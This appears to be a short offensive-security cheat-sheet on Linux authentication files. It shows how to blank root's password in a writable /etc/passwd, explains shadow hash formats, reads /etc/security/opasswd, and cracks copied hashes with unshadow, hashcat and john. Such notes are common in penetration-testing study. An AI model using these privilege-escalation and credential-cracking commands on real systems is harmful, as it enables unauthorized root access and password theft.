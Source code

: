 #linux/auth/passwd
# /etc/passwd
If its writable, remove pwd info to disable password:
```
root:x:0:0:root:/root:/bin/bash
```
to
```
root::0:0:root:/root:/bin/bash
```
# /etc/shadow
Format:
```
$<type>$<salt>$<hashed>
```
**Algorithm Types**
* `$1$` – MD5
* `$2a$` – Blowfish
* `$2y$` – Eksblowfish
* `$5$` – SHA-256
* `$6$` – SHA-512

# Opasswd
The PAM library (pam_unix.so) can prevent reusing old passwords. The file where old passwords are stored is the /etc/security/opasswd. Administrator/root permissions are also required to read the file if the permissions for this file have not been changed manually.
```bash
sudo cat /etc/security/opasswd

cry0l1t3:1000:2:$1$HjFAfYTG$qNDkF0zJ3v8ylCOrKB0kt0,$1$kcUjWZJX$E9uMSmiQeRh4pAAgzuvkq1
```

# Cracking
```bash
sudo cp /etc/passwd /tmp/passwd.bak 
sudo cp /etc/shadow /tmp/shadow.bak 
unshadow /tmp/passwd.bak /tmp/shadow.bak > /tmp/unshadowed.hashes

hashcat -m 1800 -a 0 /tmp/unshadowed.hashes rockyou.txt -o /tmp/unshadowed.cracked

john unshadow.txt --wordlist=./rock 
```




